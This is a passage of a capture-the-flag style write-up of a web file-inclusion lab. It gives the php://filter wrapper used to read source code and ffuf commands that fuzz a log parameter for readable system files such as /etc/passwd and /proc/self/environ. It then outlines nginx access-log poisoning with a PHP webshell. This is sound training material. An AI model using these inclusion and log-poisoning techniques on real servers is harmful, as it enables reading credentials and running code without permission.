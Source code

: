# Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption><p>page parameter</p></figcaption></figure>

* Can't include /etc/passwd
* Can't ffuf for valid files
* had to use PHP wrapper to view source code

```
view-source:http://46.101.95.166:30586/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption><p>ilf_admin/index.php</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption><p>log parameter seems to be including files</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption><p>included file</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption><p>No session values found so is not php session poisoning</p></figcaption></figure>

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://46.101.95.166:30586/ilf_admin/index.php?log=FUZZ' -c 
```

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt:FUZZ -u 'http://46.101.95.166:30647/ilf_admin/index.php?log=../../../../../../../../../../FUZZ' -c -fs 2046

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://46.101.95.166:30647/ilf_admin/index.php?log=../../../../../../../../../../FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 2046
________________________________________________

    * FUZZ: /etc/passwd
    * FUZZ: /etc/inittab
    * FUZZ: /etc/hosts
    * FUZZ: /etc/fstab
    * FUZZ: /etc/issue
    * FUZZ: /etc/mtab]
    * FUZZ: /etc/motd
    * FUZZ: /etc/resolv.conf
    * FUZZ: /etc/profile
    * FUZZ: /proc/cpuinfo
    * FUZZ: /proc/ioports
    * FUZZ: /proc/filesystems
    * FUZZ: /proc/interrupts
    * FUZZ: /proc/meminfo
    * FUZZ: /proc/stat
    * FUZZ: /proc/mounts
    * FUZZ: /proc/swaps
    * FUZZ: /proc/self/net/arp
    * FUZZ: /proc/version
    * FUZZ: /proc/modules
    * FUZZ: /etc/ca-certificates.conf
    * FUZZ: /etc/group-
    * FUZZ: /etc/group
    * FUZZ: /etc/hostname
    * FUZZ: /etc/modules
    * FUZZ: /etc/passwd-
    * FUZZ: /etc/nginx/nginx.conf
    * FUZZ: /etc/os-release
    * FUZZ: /etc/sysctl.conf
    * FUZZ: /proc/devices
    * FUZZ: /proc/net/udp
    * FUZZ: /proc/self/cmdline
    * FUZZ: /proc/self/environ
    * FUZZ: /proc/self/mounts
    * FUZZ: /proc/self/stat
    * FUZZ: /proc/self/status
    * FUZZ: /proc/net/tcp
    * FUZZ: /var/log/nginx/access.log
    * FUZZ: /var/log/nginx/error.log
```

Above are list of files that were accessible

to perform server log poisoning we need access to access.log file&#x20;

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption><p>../../../../../var/log/nginx/access.log</p></figcaption></figure>

now we can try to edit the header to php webshell.

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>


